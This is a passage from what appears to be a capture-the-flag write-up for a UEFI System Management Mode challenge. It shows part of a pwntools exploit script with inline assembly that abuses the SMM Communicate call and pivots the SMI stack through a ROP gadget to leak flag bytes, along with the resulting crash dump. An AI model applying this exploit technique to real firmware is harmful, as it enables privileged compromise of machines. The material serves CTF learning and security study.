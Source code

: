 ```python  
   cld  
   rep movsb

   /* Communicate(mSmmCommunication, buffer, NULL) */  
   mov rcx, {mSmmCommunication}  
   mov rdx, {buffer}  
   xor r8, r8  
   mov rax, {Communicate}

   /* These two regs will spill on SMI stack */  
   mov r14, 0x7fe5269         /* pop rsp; ret */  
   mov r15, {buffer + 0x800}  /* -> RSP */  
   call rax

   test rax, rax  
   jnz fail  
   ret

fail:  
   ud2

real_chain:  
   {real_chain}

data:  
   .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */  
   .quad {len(payload)}                   /* Buffer->MessageLength */  
   /* payload will be appended here to serve as Buffer->Data */  
''')

conn.sendline(code.hex().encode() + payload.hex().encode() + b'\ndone')  
conn.interactive()  
```

Result:

```  
Running...  
!!!! X64 Exception Type - 0D(#GP - General Protection)  CPU Apic ID - 00000000
!!!!  
ExceptionData - 0000000000000000  
RIP  - AFAFAFAFAFAFAFAF, CS  - 0000000000000038, RFLAGS - 0000000000000002  
RAX  - 547B667463756975, RCX - 0000000000000000, RDX - 0000000000000000  
...  
```

Surely enough, that value in RAX decodes to `uiuctf{T`, which is the test flag  
provided in the `handout/run/region4` file. We could find some more gadgets to  
dump more bytes, and we could even try using IO ports to actually write the
flag  
out on the screen, but wrapping the exploit up into a function and running it
a  
couple more times seemed way easier to me (*I was also not sure about how to  
output to the screen, e.g. which function or which IO port to use*).
